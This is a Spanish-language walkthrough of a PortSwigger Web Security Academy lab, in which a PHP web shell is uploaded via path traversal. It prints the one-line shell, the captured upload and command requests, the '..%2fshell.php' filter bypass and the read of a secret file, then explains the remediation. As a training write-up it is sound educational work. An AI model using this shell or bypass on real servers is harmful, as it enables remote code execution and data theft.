



# PortSwigger Web Security Academy — Lab 3 de File Upload Vulnerabilities

## Web shell upload via path traversal

**URL del laboratorio:** `https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal`

**Categoría:** File upload vulnerabilities  
**Objetivo:** subir una web shell PHP, conseguir que se ejecute fuera del directorio protegido de avatares, leer el archivo `/home/carlos/secret` y enviar el secreto en el botón **Submit solution**.

> Este laboratorio se realiza en el entorno controlado de PortSwigger Web Security Academy. Todo el flujo explicado aquí está orientado a entender la vulnerabilidad dentro del lab.

---

## 1. Enunciado del laboratorio

El laboratorio indica que existe una funcionalidad vulnerable de subida de imágenes.

La diferencia importante respecto a los labs anteriores es esta:

- La aplicación permite subir archivos.
- Pero el servidor está configurado para impedir la ejecución de archivos proporcionados por el usuario dentro del directorio de subida normal.
- Esa restricción se puede saltar explotando una vulnerabilidad secundaria: **path traversal en el nombre del archivo**.

El objetivo final es leer:

```text
/home/carlos/secret
```

Y enviar su contenido mediante el botón **Submit solution**.

Credenciales proporcionadas por el laboratorio:

```text
wiener:peter
```

---

## 2. Vista inicial del laboratorio

Al iniciar el lab aparece una página tipo blog de Web Security Academy.



En la parte superior se ve el nombre del laboratorio:

```text
Web shell upload via path traversal
```

También aparece el botón **Submit solution**, que se usará al final para introducir el secreto robado de `/home/carlos/secret`.

---

## 3. Idea general de la vulnerabilidad

Este laboratorio combina dos problemas:

1. **Subida de archivos insuficientemente controlada.**  
   Podemos subir un archivo PHP como avatar.

2. **Path traversal en el parámetro `filename`.**  
   Podemos manipular el nombre del archivo para intentar que se guarde fuera del directorio previsto.

La idea completa es:

```text
Subir shell.php
    ↓
El servidor la guarda en /files/avatars/shell.php
    ↓
Pero /files/avatars/ NO ejecuta PHP
    ↓
Intentamos escapar de /avatars/ con path traversal
    ↓
Subimos el archivo como ../shell.php o ..%2fshell.php
    ↓
Conseguimos guardarlo en /files/shell.php
    ↓
/files/ sí ejecuta PHP
    ↓
Ejecutamos comandos
    ↓
Leemos /home/carlos/secret
```

La frase clave del lab es esta:

```text
El archivo PHP no se ejecuta en el directorio de avatares, pero sí puede ejecutarse si conseguimos guardarlo en otro directorio.
```

---

## 4. Qué es una web shell

Una **web shell** es un archivo que se sube al servidor y que, cuando se visita desde el navegador, ejecuta código del lado servidor.

En este caso usamos PHP.

Una web shell básica puede ser:

```php
<?php system($_GET['cmd']); ?>
```

Esto significa:

- El script lee el parámetro `cmd` de la URL.
- Pasa ese valor a la función `system()`.
- `system()` ejecuta el comando en el sistema operativo del servidor.

Ejemplo:

```text
/files/shell.php?cmd=id
```

Eso ejecutaría en el servidor:

```bash
id
```

Y si usamos:

```text
/files/shell.php?cmd=cat+/home/carlos/secret
```

El servidor ejecutaría:

```bash
cat /home/carlos/secret
```

---

## 5. Qué es path traversal en este contexto

Path traversal consiste en usar secuencias como:

```text
../
```

para subir un nivel en la estructura de directorios.

Ejemplo:

```text
/files/avatars/shell.php
```

Si controlamos el nombre de archivo y usamos:

```text
../shell.php
```

la ruta puede resolverse así:

```text
/files/avatars/../shell.php
```

Y eso equivale a:

```text
/files/shell.php
```

Porque:

```text
avatars/..
```

significa: “entra en `avatars` y luego vuelve un nivel atrás”.

---

## 6. Por qué importa tanto la ubicación del archivo

Este lab enseña una idea crítica:

```text
El mismo archivo .php puede ser inofensivo o crítico dependiendo del directorio donde se guarde.
```

Si el archivo queda en:

```text
/files/avatars/shell.php
```

el servidor lo devuelve como texto plano, sin ejecutarlo.

Pero si conseguimos que quede en:

```text
/files/shell.php
```

entonces el servidor sí lo pasa al intérprete PHP y se ejecuta.

Por eso no basta con subir PHP. Hay que conseguir que el servidor lo ejecute.

---

## 7. Login en la aplicación

Entramos en **My account** usando:

```text
Username: wiener
Password: peter
```

Después de iniciar sesión, entramos al panel de usuario `wiener`, donde aparece la funcionalidad para subir un avatar.

La zona importante es el formulario de subida de avatar.

---

## 8. Creación de la shell PHP

Creamos un archivo llamado:

```text
shell.php
```

Con este contenido:

```php
<?php system($_GET['cmd']); ?>
```

Este payload es más flexible que leer directamente `/home/carlos/secret`, porque permite ejecutar cualquier comando pasado por URL.

También habría valido una shell más directa:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Pero en este caso se usa:

```php
<?php system($_GET['cmd']); ?>
```

porque permite comprobar primero si hay ejecución real con comandos como:

```bash
id
whoami
ls
cat /home/carlos/secret
```

---

## 9. Captura de la subida con Burp Suite

Con Burp Suite y FoxyProxy activos, subimos `shell.php` como avatar e interceptamos la petición.

La petición capturada es:

```http
POST /my-account/avatar HTTP/2
Host: 0a7a00270461328580435d7700bb005f.web-security-academy.net
Cookie: session=d6DLUYN5bu8NLs5DlL2x8P3GyOYAm3KY
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundaryb199ea7234ced0504c31f853a2643238
Content-Length: 503
Origin: https://0a7a00270461328580435d7700bb005f.web-security-academy.net
Referer: https://0a7a00270461328580435d7700bb005f.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundaryb199ea7234ced0504c31f853a2643238
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>

------geckoformboundaryb199ea7234ced0504c31f853a2643238
Content-Disposition: form-data; name="user"

wiener
------geckoformboundaryb199ea7234ced0504c31f853a2643238
Content-Disposition: form-data; name="csrf"

lCelKIiFbVLrAcYMrEaBrE2wmdqOD47u
------geckoformboundaryb199ea7234ced0504c31f853a2643238--
```

---

## 10. Desglose de la petición de subida

La línea principal es:

```http
POST /my-account/avatar HTTP/2
```

Esto indica que estamos enviando un formulario al endpoint de subida de avatar.

La cabecera importante es:

```http
Content-Type: multipart/form-data; boundary=----geckoformboundaryb199ea7234ced0504c31f853a2643238
```

Esto significa que la petición es un formulario multipart, usado para subir archivos.

Dentro del cuerpo aparece la parte del archivo:

```http
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>
```

Puntos importantes:

- `name="avatar"` indica el campo del formulario.
- `filename="shell.php"` indica el nombre con el que se sube el archivo.
- `Content-Type: application/x-php` indica el tipo declarado por el cliente.
- El contenido real del archivo es PHP.

En este laboratorio, la aplicación permite subir el archivo, pero eso todavía no garantiza ejecución.

---

## 11. Primera respuesta del servidor

Al enviar la petición, el servidor responde:

```http
HTTP/2 200 OK
Date: Sun, 10 May 2026 15:28:38 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 130

The file avatars/shell.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Esto confirma que el archivo se ha subido correctamente.

La parte clave es:

```text
The file avatars/shell.php has been uploaded.
```

Pero hay que tener cuidado: subir el archivo no significa que se esté ejecutando.

---

## 12. Comprobación de ejecución en `/files/avatars/shell.php`

Después de subirlo, capturamos la petición GET al archivo:

```http
GET /files/avatars/shell.php HTTP/2
Host: 0a7a00270461328580435d7700bb005f.web-security-academy.net
Cookie: session=d6DLUYN5bu8NLs5DlL2x8P3GyOYAm3KY
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a7a00270461328580435d7700bb005f.web-security-academy.net/my-account
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Priority: u=5, i
Te: trailers
```

Al enviarla, la respuesta es:

```http
HTTP/2 200 OK
Date: Sun, 10 May 2026 15:32:05 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Sun, 10 May 2026 15:28:38 GMT
Etag: "1f-6517848b4e98a"
Accept-Ranges: bytes
X-Frame-Options: SAMEORIGIN
Content-Length: 31

<?php system($_GET['cmd']); ?>
```

Esto es importantísimo.

El servidor devuelve el código fuente PHP como texto plano.

Eso significa:

```text
El archivo se subió, pero no se ejecutó.
```

Si PHP se hubiera ejecutado, no veríamos:

```php
<?php system($_GET['cmd']); ?>
```

Veríamos la salida del comando.

---

## 13. Qué demuestra esta respuesta

Esta respuesta demuestra que:

```text
/files/avatars/ está configurado como directorio no ejecutable para PHP.
```

Es decir:

- El archivo existe.
- El servidor lo sirve.
- Pero Apache no lo pasa al intérprete PHP.
- Lo trata como archivo estático.

Esto es exactamente la mitigación que introduce este laboratorio.

En labs anteriores, subir `shell.php` dentro de `/files/avatars/` bastaba. Aquí no.

---

## 14. Primer intento de path traversal: `../shell.php`

Como `/files/avatars/` no ejecuta PHP, intentamos salir de ese directorio modificando el nombre del archivo.

Cambiamos:

```http
filename="shell.php"
```

por:

```http
filename="../shell.php"
```

La idea es que el archivo no se guarde en:

```text
/files/avatars/shell.php
```

sino en:

```text
/files/shell.php
```

Porque:

```text
/files/avatars/../shell.php
```

se resuelve como:

```text
/files/shell.php
```

Sin embargo, este intento directo no funciona.

Al volver a consultar la shell, seguimos obteniendo:

```http
HTTP/2 200 OK
Date: Sun, 10 May 2026 15:40:34 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Sun, 10 May 2026 15:39:49 GMT
Etag: "1f-6517870bb7a6d"
Accept-Ranges: bytes
X-Frame-Options: SAMEORIGIN
Content-Length: 31

<?php system($_GET['cmd']); ?>
```

Esto indica que el traversal simple ha sido neutralizado.

---

## 15. Por qué falla `../shell.php`

El servidor probablemente limpia secuencias obvias como:

```text
../
```

Por ejemplo, podría hacer internamente algo parecido a:

```php
$filename = str_replace('../', '', $filename);
```

O aplicar algún saneamiento básico sobre el nombre del archivo.

El resultado es que:

```text
../shell.php
```

termina convertido en:

```text
shell.php
```

Y el archivo vuelve a guardarse en:

```text
/files/avatars/shell.php
```

Por eso el PHP sigue sin ejecutarse.

---

## 16. Bypass mediante URL encoding: `..%2fshell.php`

Ahora usamos una representación alternativa de `/`:

```text
%2f
```

En URL encoding:

```text
%2f = /
```

Por tanto:

```text
..%2fshell.php
```

cuando se decodifica se convierte en:

```text
../shell.php
```

Modificamos la cabecera multipart:

```http
Content-Disposition: form-data; name="avatar"; filename="..%2fshell.php"
```

La idea es que el filtro no detecte literalmente:

```text
../
```

porque lo que ve inicialmente es:

```text
..%2f
```

Pero después, otra capa de la aplicación o del servidor decodifica `%2f` a `/`, y la ruta final sí se convierte en traversal.

---

## 17. Por qué funciona `..%2f`

El fallo aparece por diferencia de interpretación entre capas.

Una capa puede validar el nombre antes de decodificarlo completamente:

```text
..%2fshell.php
```

Esa capa no ve:

```text
../shell.php
```

porque todavía está codificado.

Después otra capa decodifica:

```text
%2f → /
```

Y el nombre real termina siendo:

```text
../shell.php
```

Flujo:

```text
filename="..%2fshell.php"
        ↓
Filtro básico: no detecta "../"
        ↓
Decodificación posterior
        ↓
filename="../shell.php"
        ↓
Archivo guardado fuera de /avatars/
        ↓
/files/shell.php
```

La clave es esta:

```text
El filtro y el componente que guarda el archivo no interpretan el nombre exactamente igual.
```

---

## 18. Comprobación de la nueva ubicación

Después de subir usando:

```text
filename="..%2fshell.php"
```

ya no pedimos:

```text
/files/avatars/shell.php
```

Ahora pedimos:

```http
GET /files/shell.php HTTP/2
Host: 0a7a00270461328580435d7700bb005f.web-security-academy.net
Cookie: session=d6DLUYN5bu8NLs5DlL2x8P3GyOYAm3KY
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a7a00270461328580435d7700bb005f.web-security-academy.net/my-account
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Priority: u=5, i
Te: trailers
```

La respuesta es:

```http
HTTP/2 200 OK
Date: Sun, 10 May 2026 15:49:28 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Esto confirma algo importantísimo.

Ya no se está devolviendo el código PHP como texto plano.

Antes veíamos:

```php
<?php system($_GET['cmd']); ?>
```

Ahora no aparece.

Eso indica que PHP se está ejecutando.

---

## 19. Por qué `Content-Length: 0` indica ejecución

Nuestra shell es:

```php
<?php system($_GET['cmd']); ?>
```

La hemos pedido así:

```text
/files/shell.php
```

Pero no hemos pasado ningún parámetro `cmd`.

Entonces PHP ejecuta algo equivalente a:

```php
system(NULL);
```

Y eso no produce salida.

Por eso la respuesta tiene:

```http
Content-Length: 0
```

Si el servidor no estuviera ejecutando PHP, habría devuelto el contenido literal del archivo:

```php
<?php system($_GET['cmd']); ?>
```

Como no lo devuelve, sabemos que el archivo está siendo interpretado por PHP.

Esta es la prueba de que el path traversal funcionó.

---

## 20. Confirmación de RCE con comandos

Ahora podemos ejecutar comandos pasando el parámetro `cmd`.

Ejemplos posibles:

```text
/files/shell.php?cmd=id
/files/shell.php?cmd=whoami
/files/shell.php?cmd=ls+-la
```

El `+` se usa porque en URLs representa un espacio.

Por ejemplo:

```text
cmd=cat+/home/carlos/secret
```

se interpreta como:

```bash
cat /home/carlos/secret
```

---

## 21. Lectura del secreto de Carlos

Para resolver el laboratorio necesitamos leer:

```text
/home/carlos/secret
```

Enviamos:

```http
GET /files/shell.php?cmd=cat+/home/carlos/secret HTTP/2
Host: 0a7a00270461328580435d7700bb005f.web-security-academy.net
Cookie: session=d6DLUYN5bu8NLs5DlL2x8P3GyOYAm3KY
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a7a00270461328580435d7700bb005f.web-security-academy.net/my-account
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Priority: u=5, i
Te: trailers
```

La respuesta es:

```http
HTTP/2 200 OK
Date: Sun, 10 May 2026 15:59:14 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

Ln749zwiIipnrwHPzJKUISvmIUYro1tr
```

El secreto obtenido es:

```text
Ln749zwiIipnrwHPzJKUISvmIUYro1tr
```

---

## 22. Qué ocurrió internamente al leer el secreto

La petición fue:

```text
/files/shell.php?cmd=cat+/home/carlos/secret
```

PHP recibió:

```php
$_GET['cmd'] = "cat /home/carlos/secret"
```

La shell ejecutó:

```php
system("cat /home/carlos/secret");
```

El sistema operativo ejecutó:

```bash
cat /home/carlos/secret
```

Y la salida del comando fue devuelta en la respuesta HTTP:

```text
Ln749zwiIipnrwHPzJKUISvmIUYro1tr
```

Esto confirma ejecución remota de comandos.

---

## 23. Envío de la solución

Pulsamos **Submit solution** e introducimos el secreto:

```text
Ln749zwiIipnrwHPzJKUISvmIUYro1tr
```



Tras enviarlo, el laboratorio aparece como resuelto.



---

## 24. Cadena completa de explotación

La cadena completa queda así:

```text
1. Iniciar sesión como wiener:peter
2. Ir a My account
3. Subir shell.php como avatar
4. Comprobar que /files/avatars/shell.php devuelve el PHP como texto
5. Confirmar que /files/avatars/ no ejecuta PHP
6. Probar filename="../shell.php"
7. Ver que el traversal directo se neutraliza
8. Usar filename="..%2fshell.php"
9. Conseguir que el archivo se guarde como /files/shell.php
10. Pedir /files/shell.php y comprobar que ya no devuelve el código fuente
11. Ejecutar /files/shell.php?cmd=cat+/home/carlos/secret
12. Obtener el secreto
13. Enviar el secreto en Submit solution
```

---

## 25. Diferencia entre los tres primeros labs de File Upload

Este lab se entiende mejor comparándolo con los anteriores.

### Lab 1: RCE directa por web shell upload

La aplicación no valida nada y el directorio de subida ejecuta PHP.

```text
Subes shell.php
GET /files/avatars/shell.php
PHP se ejecuta
```

### Lab 2: Bypass de Content-Type

La aplicación intenta validar el tipo MIME, pero confía en el `Content-Type` enviado por el cliente.

```text
filename="shell.php"
Content-Type: image/png
contenido real: PHP
```

El backend acepta el archivo porque cree que es una imagen.

### Lab 3: Path traversal

La aplicación permite subir PHP, pero `/files/avatars/` no ejecuta scripts.

La explotación requiere cambiar la ubicación final:

```text
filename="..%2fshell.php"
```

para guardar el archivo en:

```text
/files/shell.php
```

donde PHP sí se ejecuta.

---

## 26. Por qué este lab es más realista

Este escenario es más realista porque muchas aplicaciones aplican una mitigación parcial:

```text
Los uploads se guardan en un directorio no ejecutable.
```

Eso es una buena medida, pero no basta si existe path traversal en el nombre del archivo.

El fallo de seguridad real no es solo permitir subir PHP, sino permitir que el usuario influya en la ruta donde se guarda.

---

## 27. Errores de seguridad presentes

En este laboratorio aparecen varios errores:

### 1. El usuario controla el nombre del archivo

El backend acepta directamente el valor de:

```http
filename="..."
```

Eso no debería usarse como ruta real de almacenamiento sin normalización estricta.

### 2. Saneamiento insuficiente

El backend parece bloquear o limpiar `../`, pero no contempla formas codificadas como:

```text
..%2f
```

### 3. Ubicación ejecutable accesible

El directorio `/files/` ejecuta PHP.

Si un atacante consigue colocar un archivo ahí, obtiene RCE.

### 4. La carpeta de uploads depende demasiado de la ruta

Aunque `/files/avatars/` sea segura, el path traversal permite escapar de ella.

---

## 28. Cómo debería corregirse

Una defensa correcta debería aplicar varias medidas a la vez.

### 1. No confiar en el nombre original del archivo

El servidor debería generar nombres propios:

```text
avatar_928374923.png
```

Nunca usar directamente:

```text
filename="../../shell.php"
```

### 2. Normalizar la ruta antes de validar

Primero se debe resolver la ruta final real y luego comprobar que sigue dentro del directorio permitido.

Ejemplo conceptual:

```text
base = /var/www/files/avatars/
final = realpath(base + filename)

if final no empieza por base:
    bloquear
```

### 3. Bloquear secuencias peligrosas antes y después de decodificar

Debe contemplarse:

```text
../
..\
..%2f
..%5c
%2e%2e%2f
```

Pero aun así, la solución robusta no es una blacklist, sino una validación por ruta canónica.

### 4. No ejecutar código en directorios de subida

El servidor debería impedir ejecución de scripts en cualquier directorio donde puedan escribirse archivos de usuario.

### 5. Validar contenido real

No basta con extensión ni MIME type. Se debe validar el contenido real si solo se permiten imágenes.

### 6. Reprocesar imágenes

Una defensa fuerte es abrir la imagen con una librería segura y volver a generarla desde cero.

Así se elimina cualquier contenido inesperado.

---

## 29. Ideas clave del laboratorio

Las ideas importantes son:

```text
Subir un archivo PHP no siempre significa RCE.
```

```text
La ejecución depende de la configuración del directorio donde queda guardado.
```

```text
/files/avatars/ servía PHP como texto plano.
```

```text
/files/ ejecutaba PHP.
```

```text
El path traversal permitió mover la shell al directorio ejecutable.
```

```text
../ fue filtrado, pero ..%2f permitió el bypass.
```

```text
El filtro y el sistema de archivos interpretaron el filename de forma distinta.
```

---

## 30. Resumen final

En este laboratorio se explota una subida de archivos combinada con path traversal.

Primero se sube una web shell PHP al directorio de avatares. La subida funciona, pero al acceder a `/files/avatars/shell.php`, el servidor devuelve el código PHP como texto, lo que demuestra que ese directorio no ejecuta scripts.

Después se intenta escapar del directorio usando `../shell.php`, pero el servidor neutraliza ese traversal directo.

Finalmente se usa una variante codificada:

```text
..%2fshell.php
```

Esto permite guardar la shell como:

```text
/files/shell.php
```

Al acceder a esa ruta, el servidor ya no devuelve el código fuente, sino que ejecuta PHP. Con el parámetro `cmd` se ejecuta:

```bash
cat /home/carlos/secret
```

Y se obtiene el secreto:

```text
Ln749zwiIipnrwHPzJKUISvmIUYro1tr
```

Ese valor se introduce en **Submit solution** y el laboratorio queda resuelto.
